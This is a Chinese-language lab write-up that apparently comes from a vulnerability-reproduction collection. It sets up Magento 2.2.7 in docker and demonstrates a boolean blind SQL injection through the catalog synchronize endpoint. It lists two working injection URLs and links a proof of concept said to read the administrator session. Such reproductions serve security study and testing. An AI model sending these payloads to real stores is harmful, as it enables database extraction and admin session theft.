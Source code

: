 # Magento 2.2 SQL注入漏洞

Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

参考链接：

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## 环境搭建

执行如下命令启动Magento 2.2.7：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：

![](1.png)

## 漏洞复现

分别访问如下链接：

- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-`
- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-`

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![](2.png)

![](3.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用[这个POC](https://github.com/ambionics/magento-exploits)，可以读取管理员的session：

![](4.png)
